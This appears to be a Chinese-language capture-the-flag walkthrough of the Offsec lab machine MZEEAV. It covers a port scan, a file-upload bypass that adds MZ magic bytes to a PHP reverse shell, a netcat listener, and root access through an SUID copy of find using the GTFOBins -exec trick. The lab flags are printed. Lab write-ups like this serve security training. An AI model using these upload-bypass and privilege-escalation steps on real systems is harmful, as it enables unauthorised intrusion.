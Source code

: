 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# MZEEAV
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.223.33 -u 5000 -t 8000 --scripts -- -n -Pn -sVC 

Open 192.168.223.33:22
Open 192.168.223.33:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: MZEE-AV - Check your files
|_http-server-header: Apache/2.4.56 (Debian)
```

ffuf掃
```
┌──(kali㉿kali)-[~/pgplay]
└─$  ffuf -u http://192.168.223.33/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/common.txt -e php

backups                 [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 243ms]
index.html              [Status: 200, Size: 1482, Words: 350, Lines: 52, Duration: 249ms]
server-status           [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 242ms]
upload                  [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 241ms]
```

前往`http://192.168.223.33/backups/`載`backup.zip`解壓縮，進到`/var/www/html`路徑查看`upload.php`
```
...
if ( strpos($magicbytes, '4D5A') === false ) {
        echo "Error no valid PEFILE\n";
        error_log(print_r("No valid PEFILE", TRUE));
        error_log(print_r("MagicBytes:" . $magicbytes, TRUE));
        exit ();
}
...
```

發現在上傳檔案的時候他會檢查`magic number`是`4D 5A`，開啟burpsuite，攔截`http://192.168.223.33/upload.php`，在hex的地方加上`4D 5a`，並送出，再前往`http://192.168.223.33/upload/shell.php`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

┌──(kali㉿kali)-[~/pgplay]
└─$ burpsuite 

POST /upload.php HTTP/1.1
Host: 192.168.223.33
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.223.33/
Content-Type: multipart/form-data; boundary=---------------------------366048428235879610921210540209
Content-Length: 5723
Origin: http://192.168.223.33
Connection: close

-----------------------------366048428235879610921210540209

Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/x-php

MZ<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
...
```

獲得反彈後在`/home/avuser`的路徑可以取得local.txt
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@mzeeav:/home/avuser$ cat local.txt
b59698cbef38415cdf1e8b06d58d7490
```

找binaries
```
www-data@mzeeav:/opt$ find / -perm -u=s -type f 2>/dev/null
/opt/fileS
...
```

不知道是什麼，`--h`看看，試了很多指令都不行，只好看它裡面的[網站](http://www.gnu.org/software/findutils/)，是`find`的東東
```
...
Please see also the documentation at http://www.gnu.org/software/findutils/.
You can report (and track progress on fixing) bugs in the "./fileS"
program via the GNU findutils bug-reporting page at
https://savannah.gnu.org/bugs/?group=findutils or, if
you have no web access, by sending email to <bug-findutils@gnu.org>.
```

跑到[GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid)
用它裡面的就成功拿到root，進/root拿到proof.txt
```
www-data@mzeeav:/opt$ /opt/fileS . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls
ls
email2.txt  proof.txt
# cat proof.txt
d6678945b86a86a8fbbff4f31437263c
```